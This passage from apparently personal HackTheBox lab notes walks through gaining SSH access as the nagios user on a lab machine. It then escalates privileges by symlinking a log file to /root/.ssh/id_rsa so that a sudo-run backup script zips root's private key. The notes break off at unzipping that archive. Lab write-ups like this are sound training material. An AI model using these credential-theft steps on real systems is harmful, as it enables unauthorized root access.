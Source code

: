 In nagios' .ssh directory, create a file called `authorized_keys` and paste kali's ssh public key in there

![[HackTheBox/Linux/attachments/Pasted image 20250506194008.png]]

Now ssh in as nagios user 

```
ssh -i nagios nagios@10.10.11.248
```

Two shells

![[HackTheBox/Linux/attachments/Pasted image 20250506194148.png]]

Return to the getprofile.sh script and find a directory that we can write to and that is being copied somewhere else 

Trying this file because it's owned by the nagios user 

![[HackTheBox/Linux/attachments/Pasted image 20250506194607.png]]

Now that we have permissions to write to this file. Rename it. Then give the root id_rsa key the same name as this file.

Move the original file
```
mv cmdsubsys.log cmdsubsys.log~
```

Give root's ssh key this file's name
```
ln -s /root/.ssh/id_rsa cmdsubsys.log
```

Now we can see the cmdsubsys.log file is pointed to /root/.ssh/id_rsa

![[HackTheBox/Linux/attachments/Pasted image 20250506195043.png]]

Now execute the getprofile.sh script as sudo

![[HackTheBox/Linux/attachments/Pasted image 20250506195119.png]]

Now find out where this profile is saved 

![[HackTheBox/Linux/attachments/Pasted image 20250506195226.png]]
- profile.zip

Move this zip to /tmp

```
mv profile.zip /tmp
```

Unzip the profile.zip

```
unzip profile.zip
```
